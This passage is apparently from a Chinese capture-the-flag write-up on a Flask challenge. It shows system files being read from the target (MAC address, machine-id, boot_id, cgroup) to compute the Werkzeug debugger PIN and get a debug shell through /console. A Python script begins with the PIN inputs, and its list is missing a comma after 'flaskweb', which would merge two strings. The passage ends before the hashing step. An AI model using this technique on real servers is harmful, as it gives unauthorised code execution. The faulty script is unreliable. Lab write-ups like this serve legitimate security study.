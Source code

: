 读取`/sys/class/net/eth0/address`，查看网卡的mac地址

![20](/medias/buuflask/20.png)

把mac地址16进制数转成10进制数得到uuid`print(int("4a:72:b2:e2:e1:14".replace(":",""),16)) # 81856487940372`

尝试读取`/etc/machine-id`，`/proc/sys/kernel/random/boot_id`，`/proc/self/cgroup`

我读到的数据

- /etc/machine-id  1408f836b0ca514d796cbf8960e45fa1
- /proc/sys/kernel/random/boot_id  f933f6fe-4e47-48a0-9f0a-717fb8a31f0c # 读到文件1了，这个不用管了
- /proc/self/cgroup  0::/空，不用管了

所以我这里`uuid=81856487940372`，`machine-id=1408f836b0ca514d796cbf8960e45fa1`

把数据拿到脚本里计算pin码559-535-095，到`console`目录下认证，拿到debug shell
```python
import hashlib
from itertools import chain

probably_public_bits = [
    'flaskweb'  # /etc/passwd
    'flask.app',  # 默认
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py'  # 报错路径
]

private_bits = [
    '81856487940372',  # 网卡地址/sys/class/net/ens33/address
    '1408f836b0ca514d796cbf8960e45fa1'  # 机器码 /etc/machine-id
]
```